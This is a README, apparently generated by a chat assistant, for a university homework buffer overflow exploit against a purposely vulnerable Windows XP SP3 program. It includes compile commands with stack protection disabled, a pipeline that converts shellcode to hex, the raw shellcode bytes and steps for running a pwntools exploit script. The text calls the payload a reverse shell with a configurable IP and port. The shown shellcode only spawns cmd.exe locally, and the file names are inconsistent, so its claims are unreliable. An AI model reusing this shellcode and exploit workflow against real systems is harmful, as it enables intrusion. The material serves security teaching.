 ```md
# Buffer Overflow Example for Windows XP SP3

## Overview

This project demonstrates a **buffer overflow exploit** targeting a vulnerable program on **Windows XP SP3**. The `shell.asm` x86 shellcode creates a new process using `CreateProcessA` with hardcoded API addresses. Designed for **educational purposes**, it highlights how buffer overflows work and how shellcode executes.

**Created for CS166, HW5. Educational purposes only.**

---

## Features

- **Reverse Shell**: Executes `cmd.exe` and connects back to the attacker.
- **Hardcoded API**: Uses static addresses for Windows XP SP3 functions.
- **Customizable**: Easily update target IP/port for the reverse shell.

---

## Files

- `shell.asm`: Reverse shell payload in assembly.
- `bo.c`: Vulnerable program, binds a socket on the given IP and port.
- `exploit.py`: Python script for exploiting the buffer overflow vulnerability.

---

## Usage

### 1. Compile the Vulnerable Program
   Compile the C program using a 32-bit MinGW compiler:
   ```bash
   i686-w64-mingw32-gcc -fno-stack-protector -no-pie -m32 -o bo.exe bo.c -lws2_32
   Usage: .\bo.exe <IP> <PORT> 
   ```

### 2. Compile the Shellcode and Convert to a Hex String
   Assemble the shellcode using NASM and convert it into a hex string:
   ```bash
   nasm -f win32 shellcode.asm -o shellcode.o

   objdump -M intel -d shellcode.o | grep '[0-9a-f]:' | grep -v 'file' | \
   cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
   sed 's/ /\\x/g' | tr -d '\n' | sed 's/^/"/' | sed 's/$/"/g'
   ```

   Example Output:
   ```
   "\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 3. Copy the Hex String into `exploit.py`
   Replace the placeholder buffer in `exploit.py` with the generated hex string:
   ```py
   buf = b"\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 4. Run `exploit.py`
   Install the `pwn` library if not already installed:
   ```bash
   pip install pwntools
   ```

   Execute the exploit:
   ```bash
   python exploit.py
   ```

---

## Demonstration Video

Below is an embedded demonstration of the buffer overflow exploit in action:

[![Buffer Overflow Demo](https://img.youtube.com/vi/YOUTUBE_VIDEO_ID/0.jpg)](https://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID)

---

## References (IEEE Style)

[1] E. H. Spafford, "The Internet Worm Incident," *IEEE Software*, vol. 6, no. 3, pp. 58-65, May 1989.

[2] M. Bishop, *Introduction to Computer Security*. Addison-Wesley, 2004.

[3] OWASP, "Buffer Overflow," [Online]. Available: https://owasp.org/www-community/attacks/Buffer_Overflow. [Accessed: Dec. 2, 2024].

[4] A. Finkel, "Understanding and Exploiting Buffer Overflows," *Proc. 22nd IEEE Security Symposium*, pp. 1-10, 2003.

---

## Author

Created by [Your Name or Alias].
```

Replace `YOUTUBE_VIDEO_ID` in the video link with your actual YouTube video ID for embedding. This provides a condensed yet informative README with an academic-style references section. Let me know if you need further adjustments!